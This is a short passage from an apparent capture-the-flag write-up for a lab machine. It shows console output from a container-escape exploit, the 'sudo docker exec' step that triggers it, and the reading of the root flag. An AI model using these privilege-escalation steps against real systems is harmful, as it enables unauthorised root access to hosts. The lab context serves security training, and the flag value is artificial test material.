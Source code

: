 ```console
[+] Found the PID: 29
[+] Successfully got the file handle
[+] Successfully got write handle &{0xc000308060}
#
```

And run ```docker exec``` command from ```noah``` shell:
```console
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh
No help topic for '/bin/sh'
noah@thenotebook:~$ cat /root/rootflag
d502ae5178936996ec48db79a73b7074
```

And we get the root flag ```d502ae5178936996ec48db79a73b7074```.